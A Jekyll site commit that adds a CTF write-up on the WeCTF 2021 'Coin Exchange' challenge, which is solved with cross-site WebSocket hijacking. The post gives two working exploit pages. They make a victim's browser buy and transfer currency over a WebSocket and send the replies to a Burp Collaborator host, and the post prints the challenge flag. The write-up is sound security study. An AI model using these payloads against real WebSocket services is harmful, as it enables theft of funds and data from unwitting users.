

Before and after one commit to lucasnathaniel/K4L1_me, a Jekyll site: the page built from index.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed lines change nothing that is shown.

Commit message:
Add web chall wectf2021 coin exchange

````diff
--- a/_includes/header.html
+++ b/_includes/header.html
@@ -1,6 +1,6 @@
     <header>
       <div class="container">
-	      <a href="/"><img src="{{ '/assets/images/title.png' | relative_url }}" width="240px" class="align" alt="blog do K4L1"></a>
+	      <a href="/"><img src="{{ '/assets/images/title.png' | relative_url }}" width="240px" class="align" alt="blog da K4L1"></a>
 
         <section id="downloads">
           <a href="/" class="btn dripicons-home"><span class="icon"></span>Home</a>
--- /dev/null
+++ b/_posts/2021-06-21-web-chall-coin-exchange-wectf2021.md
@@ -0,0 +1,150 @@
+---
+title: WeCTF 2021 - Coin Exchange
+layout: post
+date: '2021-06-21 11:00:00'
+description: solving a CSWSH vuln chall
+image: 'https://i.imgur.com/qtNIfbD.jpg'
+tags:
+- web
+- ctf
+- infosec
+- writeup
+author: k4l1
+---
+
+Hi everyone! C:
+
+After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.
+
+
+## Description
+
+62 solves / 379 pts
+
+>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.
+
+>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.
+
+>Hint: Search CSRF if you don't know what that is.
+
+>Host 1 (San Francisco): coin.sf.ctf.so:4001
+>Host 2 (Los Angeles): coin.la.ctf.so:4001
+>Host 3 (New York): coin.ny.ctf.so:4001
+>Host 4 (Singapore): coin.sg.ctf.so:4001
+>
+>Source Code: [here]([https://](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip))
+
+## Coin Exchange Website
+
+#### Login
+
+![](https://i.imgur.com/hjm5Z54.png)
+
+#### Exchange
+
+![](https://i.imgur.com/vEFD7Jn.png)
+
+#### Ranking
+
+![](https://i.imgur.com/8t3YfA0.png)
+
+#### Transfer
+
+![](https://i.imgur.com/YzK1SR7.png)
+
+
+## Solution
+
+This site use Websocket instead http requests and isn't protected to CSRF, so basically we need send to admin a malicious website with CSWSH(Cross-site websocket hijacking) to transfer eth to your account.
+
+Intercepting with BurpSuite and seeing on `WebSockets history` we can read the traffic:
+
+![](https://i.imgur.com/GwnLdLz.png)
+
+
+Checking the source, we can see how the connection is created:
+
+
+```js
+function start_socket(){
+    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
+    socket.onopen = function(e) {
+        routine = setInterval(routine_update, 1000)
+    };
+    socket.onmessage = function(event) {
+        .
+        .
+        .
+    }
+}
+```
+
+On second line we can see that it use a custom protocol called `ethexchange-api`, this will be important to connect.
+
+For send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.
+
+Let's try to code a xpl to send to admin...
+
+```html
+<!DOCTYPE html>
+<html>
+  <body>
+    <script>
+      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
+
+      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");
+
+      socket.onopen = function(e) {
+        socket.send(JSON.stringify(transfer));
+      }
+      socket.onmessage = function(event) {
+        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
+      }
+    </script>
+  </body>
+</html>
+```
+
+Sending this to admin...
+
+![](https://i.imgur.com/h8o4Fkp.png)
+
+Badly, the admin don't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).
+
+```js
+<!DOCTYPE html>
+<html>
+  <body>
+    <script>
+      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
+      var buy = {"type":"buy","content":{"amount":"7000"}}
+
+      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");
+
+      socket.onopen = function(e) {
+        socket.send(JSON.stringify(buy));
+        socket.send(JSON.stringify(buy));
+        socket.send(JSON.stringify(buy));
+        socket.send(JSON.stringify(transfer));
+      }
+      socket.onmessage = function(event) {
+        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
+      }
+    </script>
+  </body>
+</html>
+```
+
+Sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
+![](https://i.imgur.com/XEa4u0p.png)
+
+Intercepting again after got more than $5000:
+
+![](https://i.imgur.com/aYLN8L9.png)
+
+We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`
+
+
+## References
+
+* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)
````
